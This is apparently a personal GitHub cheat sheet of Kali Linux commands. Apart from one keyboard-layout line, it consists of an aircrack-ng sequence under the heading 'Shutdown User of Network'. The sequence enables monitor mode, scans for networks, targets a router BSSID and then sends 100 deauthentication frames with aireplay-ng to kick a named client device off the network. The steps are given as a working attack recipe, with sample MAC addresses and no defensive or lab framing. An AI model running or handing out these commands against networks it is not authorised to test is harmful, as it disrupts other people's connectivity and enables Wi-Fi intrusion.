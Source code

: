 # kali-commands

---

**Others Commands:** 

setxkbmap -model abnt2 -layout br _This command set the layout keyboard for brazilian._
   
---

**Wireless**

***Shutdown User of Network***

`ifconfig` - _for see name of the internet, like Ether or Wlan_
`root@localhost:~# airmon-ng start wlan0 ` _This example init airmon for monitoring_
`root@localhost:~# airodump-ng wlan0mon` _this init the screen of networks_
`root@localhost:~# airodump-ng --bssid 58:D5:6E:6C:2F:8C --channel 10 wlan0mon` _Here initialize process of see all users in network_
`root@localhost:~# aireplay-ng -0 100 -a 58:D5:6E:6C:2F:8C -c 48:49:C7:FD:F3:1E wlan0mon` _this init the attach._
`root@localhost:~# airmon-ng stop wlan0mon` _This stop monitoring mod_

refs: --bssid or -a is Mac Adress of Router and -c is Mac of device connected.

